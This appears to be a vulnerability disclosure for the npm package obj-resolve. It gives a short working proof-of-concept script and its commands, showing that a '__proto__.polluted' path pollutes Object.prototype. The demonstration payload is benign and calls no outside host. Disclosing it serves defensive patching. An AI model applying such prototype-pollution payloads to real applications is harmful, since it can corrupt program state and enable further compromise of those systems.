 # Description

`obj-resolve` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var objResolve = require("obj-resolve")
var obj = {}
console.log("Before : " + {}.polluted);
objResolve(obj,"__proto__.polluted","Yes! Its Polluted");
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i obj-resolve # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
